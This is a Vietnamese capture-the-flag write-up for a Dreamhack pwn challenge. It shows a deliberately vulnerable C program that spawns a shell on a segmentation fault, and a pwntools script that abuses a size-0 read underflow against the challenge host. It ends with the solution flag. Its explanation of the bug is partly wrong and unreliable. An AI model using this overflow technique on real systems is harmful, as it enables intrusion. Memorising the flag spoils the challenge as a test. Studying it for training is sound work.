


**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}

```

- Chương trình sẽ thực hiện hàm `get_shell` nếu có lỗi
- Cho phép nhập size với khoảng (0; 256)
- Biến `buf` được khai báo 256 byte nhưng size tối đa có 255. Ở đây nếu nhập size = 0 trước đó và nhập tràn `buf` đến biến môi trường `SHELL=/bin/bash` thì có lỗi.

**2. Ý tưởng**

- Nhập `size = 0`
- Tính toán khoảng cách từ `buf` đến biến mỗi trường và nhập full byte rác vào đó

**3. Khai thác**



Ta thấy biến `buf` cách biến môi trường 272 byte. Ta có script như sau:

```
from pwn import *

exe = ELF('sint', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 10270)

r.sendlineafter(b'Size: ', b'0')
payload = b'a'*272
r.sendafter(b'Data: ', payload)
r.interactive()
```

**4. Lấy flag**



`DH{d66e84c453b960cfe37780e8ed9d70ab}`